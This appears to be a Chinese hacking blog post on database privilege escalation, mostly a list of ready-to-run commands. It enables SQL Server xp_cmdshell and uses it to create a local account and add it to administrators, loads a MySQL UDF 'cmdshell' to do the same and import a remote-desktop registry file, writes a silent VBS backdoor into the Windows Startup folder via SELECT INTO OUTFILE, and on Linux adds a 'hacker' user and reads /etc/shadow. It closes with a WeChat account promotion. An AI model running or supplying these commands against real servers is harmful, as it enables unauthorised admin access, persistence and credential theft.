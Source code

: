 ```yaml
---
layout: post
category: binghe-code-hack
title: 数据库提权
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: 数据库提权
lock: need
---
```


# 数据库提权

## SQL Server提权

**1.启用或关闭xp_cmdshell**

```bash
--启用xp_cmdshell
USE master 
EXEC sp_configure 'show advanced options', 1 
RECONFIGURE WITH OVERRIDE 
EXEC sp_configure 'xp_cmdshell', 1 
RECONFIGURE WITH OVERRIDE 
EXEC sp_configure   'show advanced options', 0
RECONFIGURE WITH OVERRIDE 

--关闭xp_cmdshell
USE master 
EXEC sp_configure 'show advanced options', 1 
RECONFIGURE WITH OVERRIDE 
EXEC sp_configure 'xp_cmdshell', 0 
RECONFIGURE WITH OVERRIDE 
EXEC sp_configure   'show advanced options', 0
RECONFIGURE WITH OVERRIDE 
```

**2.添加用户**

```bash
Exec master.dbo.xp_cmdshell 'net user liuyazhuang lyz123 /add'
```

**3.将用户添加到管理员组**

```bash
Exec master.dbo.xp_cmdshell 'net localgroup administrators liuyazhuang /add'
```

**4.通过xp_cmdshell exec查看系统用户**

```bash
Exec master.dbo.xp_cmdshell 'net user'
```

**5.远程终端登录**

命令行运行mstsc打开远程终端，输入IP地址和刚才添加的用户名和密码，登录即可。

另外，通过数据库备份，将批处理命令备份到启动文件夹下，系统重启后就会自动执行批处理命令，也能达到提权的效果。

## MySQL提权

**1.将udf.dll文件导出到默认的插件目录下**

**2.UDF提权的常用命令**

```sql
create function cmdshell returns string soname 'udf.dll';
select cmdshell('net user liuyazhuang lyz123 /add');
select cmdshell('net localgroup administrators liuyazhuang /add');
select cmdshell('net localgroup administrators');
select cmdshell('ipconfig/all');
select cmdshell('net user');
select cmdshell('regedit /s d:\wwwroot\3389.reg');
drop function cmdshell;
select cmdshell('netstat -an');
```

**3.VBS启动项**

先通过WebShell连接数据库，通过建立表a将VBS脚本写入表中，然后导入启动项。该脚本仅对中文版有效，如果使用其他语言版本的操作系统，仅需对"C:\\Documents and Settings\\All Users\\[开始]菜单\\程序\\启动\\a.vbs"这个脚本进行相应更改。在VBS脚本后面有一个"0"，表示不弹出CMD窗口，以静默模式运行。该方法是在通过UDF提权失败的情况下，将VBS插入启动项中，待系统重启后将自动添加一个用户，示例如下：

```sql
create table a (cmd text);
insert into a values("set wshshell=createobject(""wscript.shell"") " );
insert into a values("a=wshshell.run(""cmd.exe /c net user liuyazhuang lyz123 /add"",0) " );
insert into a values("b=wshshell.run(""cmd.exe /c net localgroup administrators liuyazhuang /add"",0) " );
select * from a into outfile "C:\\Documents and Settings\\All Users\\[开始]菜单\\程序\\启动\\a.vbs";
```

## Linux下的MySQL提权

```sql
mysql -hlocalhost -uroot -p
system useradd hacker
system passwd hacker
system tail -l /etc/passwd
system tail -l /etc/shadow
```

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png) 
